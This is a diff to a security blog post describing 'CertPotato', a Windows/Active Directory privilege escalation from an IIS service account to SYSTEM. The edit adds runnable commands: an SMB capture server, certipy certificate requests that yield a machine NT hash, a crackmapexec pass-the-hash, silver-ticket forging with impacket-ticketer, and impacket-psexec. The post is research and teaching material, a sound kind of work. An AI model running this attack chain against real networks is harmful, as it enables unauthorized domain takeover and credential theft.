

Updated fix

diff --git a/_posts/2022-11-04-CertPotato.md b/_posts/2022-11-04-CertPotato.md
@@ -84,7 +84,7 @@ According to Microsoft: "[A service account is a user account that's created exp
 - NetworkService (NT AUTHORITY\\Network Service);
 - LocalService (NT AUTHORITY\\Local Service).
 
-These three accounts have different privileges on the machine. Only the LocalSystem account and the NetworkService account if they need to authenticate to other machines on the internal network they use the computer account.
+These three accounts have different privileges on the machine. Only the LocalSystem account and the NetworkService account use the computer account, if they need to authenticate to other machines on the internal network.
 Services can also be run using alternate accounts like local or domain accounts.  
   
 Moreover, since Windows Server 2008 R2, new services accounts were introduced:  
@@ -109,7 +109,9 @@ If we try to enumerate a remote share from our webshell:
 
 
 We will see that it is not the **defaultapppool** account that will try to authenticate to our server but the **IIS$** machine account:
-
+```bash
+impacket-smbserer -smb2support test .
+```
 
 ![smbserver](/assets/img/CertPotato/smbserver.png)
 
@@ -119,14 +121,20 @@ That implies that when requesting remote information, the operating system fallb
 
 Since we are able to request domain information through LDAP queries we can also retrieve the Certificate Authority information:
 
-
+```batch
+certutil -TCAInfo
+```
 ![CA information](/assets/img/CertPotato/ca_info.png)
 
 As well as information on a specific template (here the default Machine template)
 
-
+```batch
+certutil -dsTemplate Machine
+```
 ![Template information](/assets/img/CertPotato/template_info.png)
 
+> We could relay the machine authentication to the web enrollment service ([ESC8](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)), however we assume here that either the service is not present or that anti-relay measures have been put in place (EPA for example).
+{: .prompt-info }
 
 # Abuse this configuration
 
@@ -158,13 +166,21 @@ So we upload Rubeus on the compromised machine, then to obtain a forwadable TGT 
 
 We obtain a valid TGT in base64. We can now use our Kali machine to request a certificate using **certipy**. To do this, we must first convert the base64 encoded kirbi file into a ccache file:
 
-
+```bash
+cat ticket.kirbi_b64
+base64 -d ticket.kirbi_b64 > ticket.kirbi
+impacket-ticketConverter ticket.kirbi ticket.ccache
+```
 ![Convert ticket](/assets/img/CertPotato/convert.png)
 
 Once the TGT file is in the right format, you can load it with the command `export KRB5CCNAME_=<path_to_ticket.ccache>` . The **klist** command allows us to list the loaded Kerberos tickets, we can see that we have obtained a TGT as **IIS$**, the machine account.
 
 
-
+```bash
+klist
+export KRB5CCNAME=ticket.ccache
+klist
+```
 ![Load ticket](/assets/img/CertPotato/load.png)
 
   
@@ -172,58 +188,74 @@ Once the TGT file is in the right format, you can load it with the command `expo
 
 Certipy can take TGT tickets loaded with the -k option as parameter. We can use the TGT of our machine account to list the certificate templates:
 
-
+```bash
+certipy find -k -target dc.namek.local
+```
 ![Find templates](/assets/img/CertPotato/find.png)
 
 
 With our Kerberos ticket, we can then directly request a certificate with the default template **Machine**. Any certificate template with the EKU Client Authentication that our machine account can enroll on could have worked too:
 
-
+```bash
+certipy req -k -ca namek-ca -template Machine -target dc.namek.local
+```
 ![Request certificate](/assets/img/CertPotato/request.png)
 
 As detailed in the article [NTLM relaying to AD CS - On certificates, printers and a little hippo](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/) from [Dirk-jan Mollema](https://twitter.com/_dirkjan), with PKINIT authentication and the U2U extension, we can then obtain the hash of the machine account:
 
-
+```bash
+certipy auth -pfx iis.pfx
+```
 ![PKINIT](/assets/img/CertPotato/pkinit.png)
 
 We can then confirm that the account hash is valid by using crackmapexec:
 
-
+```bash
+crackmapexec smb 192.168.1.1 -u 'IIS$' -H 'aad3b435b51404eeaad3b435b51404ee:fde6a3d6d011d112795661ebe7d8e66a' 2>/dev/null
+```
 ![cme](/assets/img/CertPotato/cme.png)
 
 So we managed to get the machine account of a domain-joined machine from a local service account. With the domain-joined machine account, you can then become an administrator on the compromised machine or search for vulnerabilities in the Active Directory.
 
-{{note}} An alternative way to upgrade our machine account TGT to a NT hash is to use the [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) technique. Indeed the machine account has the possibility to modify its properties (especially the attribute **msDS-KeyCredentialLink**).{{end}}
+> An alternative way to upgrade our machine account TGT to a NT hash is to use the [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) technique. Indeed the machine account has the possibility to modify its properties (especially the attribute **msDS-KeyCredentialLink**).
+{: .prompt-tip }
 
 ## From machine account to SYSTEM
 
-To become SYSTEM with the machine account, we will forge a Silver ticket on the **CIFS** service.  To do this we need the domain SID, a domain user which is an administrator on the machine, the full domain name and NT hash of the machine account.
+To become SYSTEM with the machine account, we will forge a Silver ticket on the **CIFS** service.  To do this we need the domain SID, an arbitrary username (let's choose **Cellmax**), the full domain name and NT hash of the machine account.
 
 - The domain SID can be obtained anonymously by running **rpcclient** on the domain controller:
-
+```bash
+rpcclient -U '%' 192.168.1.1 -c 'lsaquery'
+```
 ![domain_sid](/assets/img/CertPotato/domain_sid.png)
 
 - The full domain name can be obtained with crackmapexec:
-
+```bash
+crackmapexec smb 192.168.1.1 2>/dev/null
+```
 ![full_domain](/assets/img/CertPotato/full_domain.png)
 
-- Among the administrators of the machine, we can take an administrator of the domain. That information can be retrieved through the webshell we got earlier:
-
-![admin](/assets/img/CertPotato/admin.png)
-
 Once we have these elements, we can create our silver ticket using **impacket-ticketer**:
-
+```bash
+impacket-ticketer -nthash fde6a3d6d011d112795661ebe7d8e66a -domain namek.local -domain-sid S-1-5-21-72261593-2540281417-569969885 -spn cifs/iis.namek.local Cellmax
+```
 ![silver_ticket](/assets/img/CertPotato/silver_ticket.png)
 
 Let's load into our Kerberos ticket using the export command:
 
-
+```bash
+export KRB5CCNAME=Cellmax.ccache
+klist
+```
 ![load_silver_ticket](/assets/img/CertPotato/load_silver_ticket.png)
 
 And we can now use the psexec script from the impacket toolkit with the -k and -no-
 pass parameters to authenticate to the service using our silver ticket. We are now **SYSTEM** on the server:
 
-
+```bash
+impacket-psexec namek.local/Cellmax@iis.namek.local -k -no-pass
+```
 ![system](/assets/img/CertPotato/system.png)
 
 # Conclusion
